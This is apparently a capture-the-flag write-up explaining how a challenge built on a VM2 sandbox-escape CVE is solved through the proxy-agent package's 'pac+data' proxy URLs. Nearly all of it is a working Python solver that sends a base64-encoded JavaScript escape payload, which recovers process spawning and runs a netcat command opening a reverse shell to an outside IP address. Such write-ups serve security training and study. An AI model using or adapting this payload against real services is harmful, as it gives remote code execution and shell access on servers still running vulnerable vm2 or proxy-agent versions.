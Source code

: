 # Writeup

This challenge is inspired by this CVE: [https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9).

The idea is to exploit a module that requires VM2 as a dependency, especially for this challenge. I want to exploit `proxy-agent`, which requires VM2 as a dependency. We can inject a specially crafted proxy URL with the protocol "pac+data" and inject our sandbox escape script into the proxy configuration.

Here is my solver for this challenge:

```python
from itsdangerous import base64_encode
import httpx

TARGET = "http://ctf.tcp1p.com:56662/api/fetch"

payload = "pac+data:plain/text;base64,"
payload += base64_encode("""
eval(`
FindProxyForURL=()=>{}
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor(\\`

spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}
function spawnSync(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
let exec = (x)=>spawnSync("sh",['-c',x])
console.log(exec("nc 108.137.37.157 4444 -e sh").stderr.toString())
\\`)(); }
            )
        }
    }
};
p.then();`)
""").decode()

res = httpx.get(TARGET, params={
    "url": "https://google.com",
    "proxyUrl": payload
})
print(res.text)
```
